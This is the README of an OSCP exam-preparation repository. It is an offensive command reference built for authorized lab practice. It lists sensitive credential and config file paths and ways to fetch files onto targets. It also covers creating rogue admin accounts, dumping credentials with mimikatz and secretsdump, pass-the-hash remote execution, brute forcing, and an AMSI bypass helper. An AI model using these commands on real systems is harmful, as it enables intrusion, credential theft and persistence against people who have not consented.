

# OSCP Field Notes

**Practical workflows, command references and reporting templates for OSCP preparation.**

[Start here](docs/start-here.md) · [Command reference](#general) · [Exam checklist](docs/exam.md) · [Contribute](CONTRIBUTING.md)

From your first scan to a reproducible report: find the next step, check its prerequisites and record what worked. Covers Linux, Windows, web applications, Active Directory and pivoting.

[Command compatibility review](docs/command-audit.md) · [CVE references and external PoCs](docs/cve-references.md)

## Find your next step

| Get ready | Work the target | Capture the result |
|---|---|---|
| [Toolkit](docs/toolkit.md) | [Enumeration](docs/methodology.md) | [Machine notes](templates/machine.md) |
| [Training plan](docs/training.md) | [Web & SQL](docs/web.md) | [Report template](templates/report.md) |
| [Exam checklist](docs/exam.md) | [Active Directory](docs/active-directory.md) | [Credential inventory](templates/credentials.md) |
| [Tool inventory](templates/tool-inventory.md) | [Pivoting](docs/pivoting.md) | [Progress tracker](templates/progress.md) |
| [Coverage & roadmap](docs/coverage.md) | [Privilege escalation](docs/privilege-escalation.md) | [Troubleshooting](docs/troubleshooting.md) |

## Start a lab notebook

Run from the repository root to create private notes and evidence folders outside the repo:

```bash
python3 scripts/new_session.py ~/oscp-private/lab-01
```

Offline, with no dependencies beyond Python 3. Existing destinations are never overwritten.

> [!IMPORTANT]
> Built for authorized practice. Follow the [official exam rules](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide): some training tools, including SQLMap, are prohibited. Historical commands are retained; see [coverage and validation status](docs/coverage.md) before relying on them.

Found a clearer approach or a stale command? [Contributions are welcome](CONTRIBUTING.md).

---

<a id="general"></a>
<a id="oscp-commands"></a>

## Command reference

[Setup](#quick-setup) · [Enumeration](#recon-and-enumeration) · [Web](#web-attacks) · [Windows](#windows-privilege-escalation) · [Linux](#linux-privilege-escalation) · [Active Directory](#active-directory-pentesting)

## Quick setup


#### Exports


```
export TARGET_USER="<username>"
export PASSWORD="<password>"
export LHOST="<local_ip>"
export LPORT="<local_port>"
export IP="<target_ip>"
export URL="<target_url>"
export VPN_CONFIG="<path_to_your_vpn_config>"
```

#### Aliases suggestion


```
alias ll='ls -alF'
alias oscp-http='python3 -m http.server 8000'
alias oscp-listen='nc -lvnp "$LPORT"'
alias oscp-vpn='sudo openvpn "$VPN_CONFIG"'

```

#### Scanning


1. Nmap TCP scan over 65535 ports

```
sudo nmap -T4 -sC -sV -p- $IP --open -oN nmap-tcp.txt -v
```

2. Nmap UDP scan over top ports

```
sudo nmap -sU --top-ports 20 $IP -oN nmap-udp-top.txt --open -v
```

## Important Locations

Paths below include legacy installations. On current systems, also inspect `/etc/php/<VERSION>/`, `/etc/systemd/system/`, `/etc/nginx/` and `~/.ssh/id_ed25519` where applicable. Presence and read permissions must be checked; `~` is shell expansion, not a portable web-file path.

>💡 For Finding all important files in Windows:(CTF Style)
`cd c:\Users` then
`tree /F`

<details>
	<summary>Windows</summary>
	
	C:/Users/Administrator/NTUser.dat # Registry settings
	C:/Documents and Settings/Administrator/NTUser.dat # Registry settings
	C:/apache/logs/access.log # Apache access logs
	C:/apache/logs/error.log # Apache error logs
	C:/apache/php/php.ini # PHP configuration
	C:/boot.ini # Boot configuration
	C:/inetpub/wwwroot/global.asa # IIS global script
	C:/MySQL/data/hostname.err # MySQL error log
	C:/MySQL/data/mysql.err # MySQL error log
	C:/MySQL/data/mysql.log # MySQL general log
	C:/MySQL/my.cnf # MySQL configuration
	C:/MySQL/my.ini # MySQL configuration
	C:/php4/php.ini # PHP configuration
	C:/php5/php.ini # PHP configuration
	C:/php/php.ini # PHP configuration
	C:/Program Files/Apache Group/Apache2/conf/httpd.conf # Apache configuration
	C:/Program Files/Apache Group/Apache/conf/httpd.conf # Apache configuration
	C:/Program Files/Apache Group/Apache/logs/access.log # Apache access logs
	C:/Program Files/Apache Group/Apache/logs/error.log # Apache error logs
	C:/Program Files/FileZilla Server/FileZilla Server.xml # FTP server config
	C:/Program Files/MySQL/data/hostname.err # MySQL error log
	C:/Program Files/MySQL/data/mysql-bin.log # MySQL binary log
	C:/Program Files/MySQL/data/mysql.err # MySQL error log
	C:/Program Files/MySQL/data/mysql.log # MySQL general log
	C:/Program Files/MySQL/my.ini # MySQL configuration
	C:/Program Files/MySQL/my.cnf # MySQL configuration
	C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err # MySQL error log
	C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log # MySQL binary log
	C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err # MySQL error log
	C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log # MySQL general log
	C:/Program Files/MySQL/MySQL Server 5.0/my.cnf # MySQL configuration
	C:/Program Files/MySQL/MySQL Server 5.0/my.ini # MySQL configuration
	C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf # Apache configuration
	C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf # Apache configuration
	C:/Program Files (x86)/Apache Group/Apache/conf/access.log # Apache access logs
	C:/Program Files (x86)/Apache Group/Apache/conf/error.log # Apache error logs
	C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml # FTP server config
	C:/Program Files (x86)/xampp/apache/conf/httpd.conf # Apache configuration
	C:/WINDOWS/php.ini # PHP configuration
	C:/WINDOWS/Repair/SAM # Backup SAM database
	C:/Windows/repair/system # Backup system hive
	C:/Windows/repair/software # Backup software hive
	C:/Windows/repair/security # Backup security hive
	C:/WINDOWS/System32/drivers/etc/hosts # Hosts file
	C:/Windows/win.ini # Windows initialization
	C:/WINNT/php.ini # PHP configuration
	C:/WINNT/win.ini # Windows initialization
	C:/xampp/apache/bin/php.ini # PHP configuration
	C:/xampp/apache/logs/access.log # Apache access logs
	C:/xampp/apache/logs/error.log # Apache error logs
	C:/Windows/Panther/Unattend/Unattended.xml # Windows setup file
	C:/Windows/Panther/Unattended.xml # Windows setup file
	C:/Windows/debug/NetSetup.log # Network setup log
	C:/Windows/system32/config/AppEvent.Evt # Application event log
	C:/Windows/system32/config/SecEvent.Evt # Security event log
	C:/Windows/system32/config/default.sav # Registry backup
	C:/Windows/system32/config/security.sav # Registry backup
	C:/Windows/system32/config/software.sav # Registry backup
	C:/Windows/system32/config/system.sav # Registry backup
	C:/Windows/system32/config/regback/default # Registry backup
	C:/Windows/system32/config/regback/sam # Registry backup
	C:/Windows/system32/config/regback/security # Registry backup
	C:/Windows/system32/config/regback/system # Registry backup
	C:/Windows/system32/config/regback/software # Registry backup
	C:/Program Files/MySQL/MySQL Server 5.1/my.ini # MySQL configuration
	C:/Windows/System32/inetsrv/config/schema/ASPNET_schema.xml # ASP.NET schema
	C:/Windows/System32/inetsrv/config/applicationHost.config # IIS configuration
	C:/inetpub/logs/LogFiles/W3SVC1/u_ex[YYMMDD].log # IIS log files
</details>

<details>
	<summary>Linux</summary>
	
	/etc/passwd # User accounts
	/etc/shadow # Password hashes
	/etc/aliases # Email aliases
	/etc/anacrontab # Cron jobs
	/etc/apache2/apache2.conf # Apache configuration
	/etc/apache2/httpd.conf # Apache configuration
	/etc/apache2/sites-enabled/000-default.conf # Apache virtual host
	/etc/at.allow # Allowed at users
	/etc/at.deny # Denied at users
	/etc/bashrc # Bash shell initialization
	/etc/bootptab # BOOTP server configuration
	/etc/chrootUsers # Chroot users
	/etc/chttp.conf # CHTTP server configuration
	/etc/cron.allow # Allowed cron users
	/etc/cron.deny # Denied cron users
	/etc/crontab # Cron jobs
	/etc/cups/cupsd.conf # CUPS configuration
	/etc/exports # NFS shares
	/etc/fstab # Filesystems mount
	/etc/ftpaccess # FTP server access
	/etc/ftpchroot # FTP chroot users
	/etc/ftphosts # FTP host access
	/etc/groups # Group accounts
	/etc/grub.conf # Bootloader configuration
	/etc/hosts # Hostname to IP
	/etc/hosts.allow # Allowed hosts
	/etc/hosts.deny # Denied hosts
	/etc/httpd/access.conf # Apache access config
	/etc/httpd/conf/httpd.conf # Apache configuration
	/etc/httpd/httpd.conf # Apache configuration
	/etc/httpd/logs/access_log # Apache access logs
	/etc/httpd/logs/access.log # Apache access logs
	/etc/httpd/logs/error_log # Apache error logs
	/etc/httpd/logs/error.log # Apache error logs
	/etc/httpd/php.ini # PHP configuration
	/etc/httpd/srm.conf # Apache srm config
	/etc/inetd.conf # Inetd service configuration
	/etc/inittab # System initialization
	/etc/issue # Pre-login message
	/etc/knockd.conf # Knockd configuration
	/etc/lighttpd.conf # Lighttpd configuration
	/etc/lilo.conf # LILO bootloader config
	/etc/logrotate.d/ftp # Logrotate FTP logs
	/etc/logrotate.d/proftpd # Logrotate ProFTPD logs
	/etc/logrotate.d/vsftpd.log # Logrotate vsftpd logs
	/etc/lsb-release # Distro info
	/etc/motd # Message of the day
	/etc/modules.conf # Kernel modules
	/etc/motd # Message of the day
	/etc/mtab # Mounted filesystems
	/etc/my.cnf # MySQL configuration
	/etc/my.conf # MySQL configuration
	/etc/mysql/my.cnf # MySQL configuration
	/etc/network/interfaces # Network configuration
	/etc/networks # Network names
	/etc/npasswd # Password file
	/etc/php4.4/fcgi/php.ini # PHP configuration
	/etc/php4/apache2/php.ini # PHP configuration
	/etc/php4/apache/php.ini # PHP configuration
	/etc/php4/cgi/php.ini # PHP configuration
	/etc/php5/apache2/php.ini # PHP configuration
	/etc/php5/apache/php.ini # PHP configuration
	/etc/php/apache2/php.ini # PHP configuration
	/etc/php/apache/php.ini # PHP configuration
	/etc/php/cgi/php.ini # PHP configuration
	/etc/php.ini # PHP configuration
	/etc/php/php4/php.ini # PHP configuration
	/etc/php/php.ini # PHP configuration
	/etc/printcap # Printer capabilities
	/etc/profile # System-wide shell profile
	/etc/proftp.conf # ProFTPd configuration
	/etc/proftpd/proftpd.conf # ProFTPd configuration
	/etc/pure-ftpd.conf # Pure-FTPD configuration
	/etc/pureftpd.passwd # Pure-FTPD password file
	/etc/pureftpd.pdb # Pure-FTPD user database
	/etc/pure-ftpd/pure-ftpd.conf # Pure-FTPD configuration
	/etc/pure-ftpd/pure-ftpd.pdb # Pure-FTPD database
	/etc/pure-ftpd/putreftpd.pdb # Pure-FTPD database
	/etc/redhat-release # RedHat version info
	/etc/resolv.conf # DNS servers
	/etc/samba/smb.conf # Samba configuration
	/etc/snmpd.conf # SNMP daemon config
	/etc/ssh/ssh_config # SSH client config
	/etc/ssh/sshd_config # SSH server config
	/etc/ssh/ssh_host_dsa_key # SSH host key
	/etc/ssh/ssh_host_dsa_key.pub # SSH host key
	/etc/ssh/ssh_host_key # SSH host key
	/etc/ssh/ssh_host_key.pub # SSH host key
	/etc/sysconfig/network # Network settings
	/etc/syslog.conf # Syslog configuration
	/etc/termcap # Terminal capabilities
	/etc/vhcs2/proftpd/proftpd.conf # VHCS2 ProFTPd config
	/etc/vsftpd.chroot_list # VsFTPd chroot list
	/etc/vsftpd.conf # VsFTPd configuration
	/etc/vsftpd/vsftpd.conf # VsFTPd configuration
	/etc/wu-ftpd/ftpaccess # WuFTP access control
	/etc/wu-ftpd/ftphosts # WuFTP hosts
	/etc/wu-ftpd/ftpusers # WuFTP users
	/logs/pure-ftpd.log # Pure-FTPD logs
	/logs/security_debug_log # Security logs
	/logs/security_log # Security logs
	/opt/lampp/etc/httpd.conf # XAMPP Apache config
	/opt/xampp/etc/php.ini # XAMPP PHP config
	/proc/cmdline # Boot command line
	/proc/cpuinfo # CPU information
	/proc/filesystems # Filesystems supported
	/proc/interrupts # Interrupts info
	/proc/ioports # I/O port info
	/proc/meminfo # Memory info
	/proc/modules # Loaded kernel modules
	/proc/mounts # Mounted filesystems
	/proc/net/arp # ARP table
	/proc/net/tcp # TCP connections
	/proc/net/udp # UDP connections
	/proc//cmdline # Process command line
	/proc//maps # Process memory maps
	/proc/sched_debug # Scheduler debug info
	/proc/self/cwd/app.py # Current working directory app
	/proc/self/environ # Process environment
	/proc/self/net/arp # ARP table
	/proc/stat # System statistics
	/proc/swaps # Swap information
	/proc/version # Kernel version
	/root/anaconda-ks.cfg # Kickstart configuration
	/usr/etc/pure-ftpd.conf # Pure-FTPD configuration
	/usr/lib/php.ini # PHP configuration
	/usr/lib/php/php.ini # PHP configuration
	/usr/local/apache/conf/modsec.conf # ModSecurity config
	/usr/local/apache/conf/php.ini # PHP configuration
	/usr/local/apache/log # Apache logs
	/usr/local/apache/logs # Apache logs
	/usr/local/apache/logs/access_log # Apache access logs
	/usr/local/apache/logs/access.log # Apache access logs
	/usr/local/apache/audit_log # Apache audit logs
	/usr/local/apache/error_log # Apache error logs
	/usr/local/apache/error.log # Apache error logs
	/usr/local/cpanel/logs # cPanel logs
	/usr/local/cpanel/logs/access_log # cPanel access logs
	/usr/local/cpanel/logs/error_log # cPanel error logs
	/usr/local/cpanel/logs/license_log # cPanel license logs
	/usr/local/cpanel/logs/login_log # cPanel login logs
	/usr/local/cpanel/logs/stats_log # cPanel stats logs
	/usr/local/etc/httpd/logs/access_log # HTTPD access logs
	/usr/local/etc/httpd/logs/error_log # HTTPD error logs
	/usr/local/etc/php.ini # PHP configuration
	/usr/local/etc/pure-ftpd.conf # Pure-FTPD configuration
	/usr/local/etc/pureftpd.pdb # Pure-FTPD database
	/usr/local/lib/php.ini # PHP configuration
	/usr/local/php4/httpd.conf # PHP4 HTTPD config
	/usr/local/php4/httpd.conf.php # PHP4 HTTPD PHP config
	/usr/local/php4/lib/php.ini # PHP4 configuration
	/usr/local/php5/httpd.conf # PHP5 HTTPD config
	/usr/local/php5/httpd.conf.php # PHP5 HTTPD PHP config
	/usr/local/php5/lib/php.ini # PHP5 configuration
	/usr/local/php/httpd.conf # PHP HTTPD config
	/usr/local/php/httpd.conf.ini # PHP HTTPD ini config
	/usr/local/php/lib/php.ini # PHP configuration
	/usr/local/pureftpd/etc/pure-ftpd.conf # Pure-FTPD configuration
	/usr/local/pureftpd/etc/pureftpd.pdn # Pure-FTPD database
	/usr/local/pureftpd/sbin/pure-config.pl # Pure-FTPD script
	/usr/local/www/logs/httpd_log # HTTPD logs
	/usr/local/Zend/etc/php.ini # Zend PHP configuration
	/usr/sbin/pure-config.pl # Pure-FTPD script
	/var/adm/log/xferlog # Transfer logs
	/var/apache2/config.inc # Apache2 configuration
	/var/apache/logs/access_log # Apache access logs
	/var/apache/logs/error_log # Apache error logs
	/var/cpanel/cpanel.config # cPanel configuration
	/var/lib/mysql/my.cnf # MySQL configuration
	/var/lib/mysql/mysql/user.MYD # MySQL user data
	/var/local/www/conf/php.ini # PHP configuration
	/var/log/apache2/access_log # Apache access logs
	/var/log/apache2/access.log # Apache access logs
	/var/log/apache2/error_log # Apache error logs
	/var/log/apache2/error.log # Apache error logs
	/var/log/apache/access_log # Apache access logs
	/var/log/apache/access.log # Apache access logs
	/var/log/apache/error_log # Apache error logs
	/var/log/apache/error.log # Apache error logs
	/var/log/apache-ssl/access.log # SSL access logs
	/var/log/apache-ssl/error.log # SSL error logs
	/var/log/auth.log # Authentication logs
	/var/log/boot # Boot logs
	/var/htmp # Temporary files
	/var/log/chttp.log # CHTTP logs
	/var/log/cups/error.log # CUPS error logs
	/var/log/daemon.log # Daemon logs
	/var/log/debug # Debug logs
	/var/log/dmesg # Boot messages
	/var/log/dpkg.log # Package manager logs
	/var/log/exim_mainlog # Exim main logs
	/var/log/exim/mainlog # Exim main logs
	/var/log/exim_paniclog # Exim panic logs
	/var/log/exim.paniclog # Exim panic logs
	/var/log/exim_rejectlog # Exim reject logs
	/var/log/exim/rejectlog # Exim reject logs
	/var/log/faillog # Failed login attempts
	/var/log/ftplog # FTP logs
	/var/log/ftp-proxy # FTP proxy logs
	/var/log/ftp-proxy/ftp-proxy.log # FTP proxy logs
	/var/log/httpd-access.log # HTTPD access logs
	/var/log/httpd/access_log # HTTPD access logs
	/var/log/httpd/access.log # HTTPD access logs
	/var/log/httpd/error_log # HTTPD error logs
	/var/log/httpd/error.log # HTTPD error logs
	/var/log/httpsd/ssl.access_log # SSL access logs
	/var/log/httpsd/ssl_log # SSL logs
	/var/log/kern.log # Kernel logs
	/var/log/lastlog # Last login logs
	/var/log/lighttpd/access.log # Lighttpd access logs
	/var/log/lighttpd/error.log # Lighttpd error logs
	/var/log/lighttpd/lighttpd.access.log # Lighttpd access logs
	/var/log/lighttpd/lighttpd.error.log # Lighttpd error logs
	/var/log/mail.info # Mail information
	/var/log/mail.log # Mail logs
	/var/log/maillog # Mail logs
	/var/log/mail.warn # Mail warnings
	/var/log/message # System messages
	/var/log/messages # System messages
	/var/log/mysqlderror.log # MySQL error log
	/var/log/mysql.log # MySQL logs
	/var/log/mysql/mysql-bin.log # MySQL binary log
	/var/log/mysql/mysql.log # MySQL logs
	/var/log/mysql/mysql-slow.log # MySQL slow query log
	/var/log/proftpd # ProFTPd logs
	/var/log/pureftpd.log # Pure-FTPD logs
	/var/log/pure-ftpd/pure-ftpd.log # Pure-FTPD logs
	/var/log/secure # Security logs
	/var/log/vsftpd.log # VsFTPd logs
	/var/log/wtmp # Login records
	/var/log/xferlog # Transfer logs
	/var/log/yum.log # Yum package manager logs
	/var/mysql.log # MySQL logs
	/var/run/utmp # Current logins
	/var/spool/cron/crontabs/root # Root crontab
	/var/webmin/miniserv.log # Webmin logs
	/var/www/html/__init__.py # Python init file
	/var/www/html/db_connect.php # PHP database connection
	/var/www/html/utils.php # PHP utility file
	/var/www/log/access_log # Web access logs
	/var/www/log/error_log # Web error logs
	/var/www/logs/access_log # Web access logs
	/var/www/logs/error_log # Web error logs
	/var/www/logs/access.log # Web access logs
	/var/www/logs/error.log # Web error logs
	~/.atfp_history # ATFP history
	~/.bash_history # Bash shell history
	~/.bash_logout # Bash logout file
	~/.bash_profile # Bash profile
	~/.bashrc # Bash shell initialization
	~/.gtkrc # GTK settings
	~/.login # Shell login script
	~/.logout # Shell logout script
	~/.mysql_history # MySQL history
	~/.nano_history # Nano editor history
	~/.php_history # PHP shell history
	~/.profile # User profile script
	~/.ssh/authorized_keys # SSH authorized keys
	~/.ssh/id_dsa # DSA SSH key
	~/.ssh/id_dsa.pub # DSA SSH public key
	~/.ssh/id_rsa # RSA SSH key
	~/.ssh/id_ecdsa # ECDSA SSH key
	~/.ssh/id_rsa.pub # RSA SSH public key
	~/.ssh/identity # SSH identity key
	~/.ssh/identity.pub # SSH public key
	~/.viminfo # Vim editor history
	~/.wm_style # Window manager style
	~/.Xdefaults # X Window settings
	~/.xinitrc # X Window init script
	~/.Xresources # X Window resources
	~/.xsession # X Window session script
</details>

**Discovering KDBX files**
1. In Windows
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
2. In Linux
```bash
find / -type f -name '*.kdbx' 2>/dev/null
```

### GitHub recon

- You need to find traces of the `.git` files on the target machine.
- Now navigate to the directory where the file is located, a potential repository.
- Commands

```jsx
# Log information of the current repository.
git log

# This will display the log of the stuff happened, like commit history which is very useful
git show <commit-id>

# This shows the commit information and the newly added stuff.
```

- If you identify `.git` active on the website. Use https://github.com/arthaud/git-dumper now it downloads all the files and saves it locally. Perform the same above commands and escalate.
- Some useful GitHub dorks: [https://book.hacktricks.xyz/generic-methodologies-and-resources/external-recon-methodology/github-leaked-secrets](https://book.hacktricks.xyz/generic-methodologies-and-resources/external-recon-methodology/github-leaked-secrets) → this might not be relevant to the exam environment.

## Connecting to RDP

Use the installed FreeRDP 3 launcher (`xfreerdp3` or `xfreerdp`, depending on the package); check `/version` and `/help`. Clipboard redirection does not fix authentication. Verify unfamiliar certificate fingerprints before accepting them. [Package help](https://www.kali.org/tools/freerdp3/).

```bash
xfreerdp3 /u:uname /v:IP
xfreerdp3 /d:domain.example /u:uname /v:IP
xfreerdp3 /d:domain.example /u:uname /v:IP +clipboard /dynamic-resolution
```

## Adding SSH Public key

- This can be used to get ssh session, on target machine which is based on linux

```bash
ssh-keygen -t ed25519 #enter a passphrase when prompted

#This creates id_ed25519 and id_ed25519.pub in ~/.ssh by default.
#Copy the content of id_ed25519.pub to the target user's authorized_keys file.
chmod 700 ~/.ssh
nano ~/.ssh/authorized_keys #enter the copied content here
chmod 600 ~/.ssh/authorized_keys

#On Attacker machine
ssh -i ~/.ssh/id_ed25519 username@target_ip #enter the key passphrase if you set one
```

## File Transfers

- Netcat

```bash
#Attacker
nc <target_ip> 1234 < nmap

#Target
nc -lvp 1234 > nmap
```

- Downloading on Windows

```powershell
powershell -command Invoke-WebRequest -Uri http://<LHOST>:<LPORT>/<FILE> -Outfile C:\\temp\\<FILE>
iwr -uri http://lhost/file -Outfile file
certutil -urlcache -split -f "http://<LHOST>/<FILE>" <FILE>
copy \\kali\share\file .
```

- Downloading on Linux

```bash
wget http://lhost/file
curl -o <OUTPUT_FILE> http://<LHOST>/<FILE>
```

### Windows to Kali

Kali Bash (use a dedicated transfer folder):

```bash
impacket-smbserver -smb2support -username labtransfer -password '<TRANSFER_PASSWORD>' share ./transfer
```

Windows CMD:

```cmd
net use \\<KALI_IP>\share /user:labtransfer *
copy file \\<KALI_IP>\share\
net use \\<KALI_IP>\share /delete
```

Modern Windows policies can block guest SMB or require signing. Check the actual client policy and server support if negotiation fails; see [SMB hardening](https://learn.microsoft.com/en-us/windows-server/storage/file-server/smb-security-hardening).

## Adding Users

### Windows

```powershell
net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD
```

### Linux

```bash
adduser <uname> #Interactive
useradd -m <uname>

useradd -u <UID> -g <group> <uname>  #UID can be something new than existing, this command is to add a user to a specific group
```

## Password-Hash Cracking

*Hash Analyzer*: [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)  </br>
## Password list mentioned in the OffSec Discord: 500-worst-passwords.txt
### Hash Identifier
- Identify the hash types using these tools
```powershell
hashid <FILE>
name-that-hash -f <FILE>
```
### fcrackzip

```powershell
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <FILE>.zip #Cracking zip files
```

### John

> [https://github.com/openwall/john/tree/bleeding-jumbo/run](https://github.com/openwall/john/tree/bleeding-jumbo/run)
> 
- If there’s an encrypted file, try to convert it into john hash and crack.

```powershell
ssh2john.py id_rsa > hash
#Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```
### keepass2John
During the Initial enumeration process of the target with smbclient -L //target or smbclient -L ////target found Database.kdbx file in User directory.
```powershell
keepass2john Database.kdbx > keepass.hash
john keepass.hash
or
hashcat --help | grep "KeePass" 
hashcat -m 13400 keepass.hash  /home/kali/HTB/OSCP/rockyou.txt 
```


### Hashcat

> [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
> 

```powershell
#Obtain the Hash module number 
hashcat -m <number> hash wordlists.txt
```

## Pivoting through SSH

```bash
ssh -i id_rsa -D 9050 adminuser@10.10.155.5 #SOCKS proxy port

#Change the info in /etc/proxychains4.conf also enable "Quiet Mode"

proxychains4 nxc smb 10.10.10.0/24 #Example
```

## Dealing with Passwords

- When there’s a scope for bruteforce or hash-cracking then try the following,
    - Have a valid usernames first
    - Dont firget trying `admin:admin`
    - Try `username:username` as first credential
    - If it’s related to a service, try default passwords.
    - Service name as the username as well as the same name for password.
    - Use Rockyou.txt
- Some default passwords to always try out!

```jsx
password
password1
Password1
Password@123
password@123
admin
administrator
admin@123

```

## Impacket

> The commands below use the `impacket-*` launchers provided by Kali's Impacket package. When running directly from an upstream source checkout, the equivalent example filenames end in `.py`.

```bash
impacket-smbclient <domain>/<user>:<password>@<target-ip> #connect to the server rather than a specific share

impacket-lookupsid <domain>/<user>:<password>@<target-ip> #enumerate SIDs on the target

impacket-services <domain>/<user>:<password>@<target-ip> list #enumerate services

impacket-secretsdump <domain>/<user>:<password>@<target-ip> #dump secrets from the target

impacket-GetUserSPNs <domain>/<user>:<password> -dc-ip <dc-ip> -request #request Kerberoastable TGS tickets

impacket-GetNPUsers <domain>/ -dc-ip <dc-ip> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #AS-REP roasting with a username list

##RCE
impacket-psexec test.local/john:password123@10.10.10.1
impacket-psexec -hashes <LMHASH>:<NTHASH> test.local/john@10.10.10.1

impacket-wmiexec test.local/john:password123@10.10.10.1
impacket-wmiexec -hashes <LMHASH>:<NTHASH> test.local/john@10.10.10.1

impacket-smbexec test.local/john:password123@10.10.10.1
impacket-smbexec -hashes <LMHASH>:<NTHASH> test.local/john@10.10.10.1

impacket-atexec test.local/john:password123@10.10.10.1 <command>
impacket-atexec -hashes <LMHASH>:<NTHASH> test.local/john@10.10.10.1 <command>

```

## Evil-Winrm

Certificate authentication requires a certificate mapped to an authorized account. Built-in helpers such as `Bypass-4MSI` are version-dependent and are not guaranteed to bypass current defenses. [Upstream usage](https://github.com/Hackplayers/evil-winrm).

```bash
##winrm service discovery
nmap -p5985,5986 <IP>
# 5985: HTTP transport; message protection depends on authentication/configuration.
# 5986: HTTPS transport.

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S #if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S #-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> #not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell #Location can be different
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu # to view commands
#There are several commands to run
#This is an example for running a binary
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```

## Mimikatz

```powershell
privilege::debug

token::elevate

sekurlsa::logonpasswords #hashes and plaintext passwords
lsadump::sam
lsadump::sam SystemBkup.hiv SamBkup.hiv
lsadump::dcsync /user:krbtgt
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

```

## Ligolo-ng

See the [pivoting guide](docs/pivoting.md) for commands separated by Kali, agent and Ligolo console, certificate fingerprint verification, internal routes, callback listeners and pivot-local services.

---

# Recon and Enumeration

- OSINT OR Passive Recon
    
    <aside>
    💡 Not that useful for OSCP as we’ll be dealing with internal machines
    
    </aside>
    
    - whois: `whois <domain>` or `whois <domain> -h <IP>`
    - Google dorking,
        - site
        - filetype
        - intitle
        - GHDB - Google hacking database
    - OS and Service Information using [searchdns.netcraft.com](http://searchdns.netcraft.com)
    - Github dorking
        - filename
        - user
        - A tool called Gitleaks for automated enumeration
    - Shodan dorks
        - hostname
        - port
        - Then gather infor by going through the options
    - Scanning Security headers and SSL/TLS using [https://securityheaders.com/](https://securityheaders.com/)
    

## Port Scanning

```powershell
#use -Pn option if you're getting nothing in scan
nmap -sC -sV <IP> -v #Basic scan
nmap -T4 -A -p- <IP> -v #complete scan
sudo nmap -sV -p 443 --script "vuln" 192.168.50.124 #running vuln category scripts

#NSE
updatedb
locate .nse | grep <name>
sudo nmap --script="name" <IP> #here we can specify other options like specific ports...etc

Test-NetConnection -Port <port> <IP>   #powershell utility

1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("IP", $_)) "TCP port $_ is open"} 2>$null #automating port scan of first 1024 ports in powershell
```

## FTP enumeration

```powershell
ftp <IP>
#login if you have relevant creds or based on nmpa scan find out whether this has anonymous login or not, then loginwith anonymous:password

put <file> #uploading file
get <file> #downloading file

#NSE
locate .nse | grep ftp
nmap -p21 --script=<name> <IP>

#bruteforce
hydra -L users.txt -P passwords.txt <IP> ftp #'-L' for usernames list, '-l' for username and vice-versa
hydra -l offsec -P /usr/share/seclists/Passwords/500-worst-passwords.txt <IP> ftp

#check for vulnerabilities associated with the version identified.
```

## SSH enumeration

```powershell
#Login
ssh uname@IP #enter password in the prompt

#Use the private key file you obtained, for example id_rsa or id_ecdsa
chmod 600 id_rsa
ssh -i id_rsa uname@IP #distinguish a local key passphrase prompt from a remote account-password fallback

#cracking id_rsa or id_ecdsa
ssh2john id_ecdsa > hash #replace id_ecdsa with the actual private key filename
john --wordlist=/home/sathvik/Wordlists/rockyou.txt hash

#bruteforce
hydra -l uname -P passwords.txt <IP> ssh #'-L' for usernames list, '-l' for username and vice-versa
hydra -L users.txt -P pass.txt <IP> ssh -s 2222
hydra -l offsec -P /usr/share/seclists/Passwords/500-worst-passwords.txt <IP> ssh

#check for vulnerabilities associated with the version identified.
```

## SMB enumeration

```powershell
sudo nbtscan -r 192.168.50.0/24 #IP or range can be provided

#NSE scripts can be used
locate .nse | grep smb
nmap -p445 --script="name" $IP 

#In windows we can view like this
net view \\<computername/IP> /all

#NetExec
nxc smb <IP/range>
nxc smb 192.168.1.100 -u username -p password
nxc smb 192.168.1.100 -u username -p password --shares #lists available shares
nxc smb 192.168.1.100 -u username -p password --users #lists domain users
nxc smb 192.168.1.100 -u username -p password --pass-pol #shows the domain password policy
